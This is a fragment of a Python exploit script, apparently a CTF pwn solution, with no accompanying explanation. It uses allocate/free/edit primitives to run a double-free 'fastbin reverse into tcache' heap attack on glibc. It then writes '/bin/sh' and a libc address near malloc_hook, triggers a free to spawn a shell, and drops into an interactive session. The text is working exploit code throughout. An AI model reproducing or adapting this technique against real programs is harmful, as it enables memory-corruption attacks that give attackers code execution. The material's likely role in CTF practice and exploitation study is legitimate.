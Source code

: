 ```python
print(hex(libc_base))


##stage two / fastbin reverse into tcache
buy(0x18)   # <- idx=8

for i in range(14):
    buy(0x48)   # <- idx=12~25
for i in range(7):
    refund(12 + i)      # <- idx=12~18
refund(19)      # <- victim
refund(20)
refund(19)
for i in range(7):
    buy(0x48)   # idx=12~18
buy(0x48)   #idx=19
buy(0x48)   #idx=20
buy(0x48)   #idx=26  =  idx=19

for i in range(7):
    refund(12+i)        # <- idx=12~18
for i in range(7):
    refund(19+i)        # <- idx=19~25
edit(26, p64(libc_base + 0x1eee48 - 0x30))

for i in range(7):
    buy(0x48)   #idx=12~18
buy(0x48) #idx = 19 / reverse to tcache
buy(0x48) #idx = 20 / near malloc_hook
edit(20, b'/bin/sh\x00' + p64(0) * 3 + p64(libc_base + 0x52290))

refund(20)

r.interactive()
```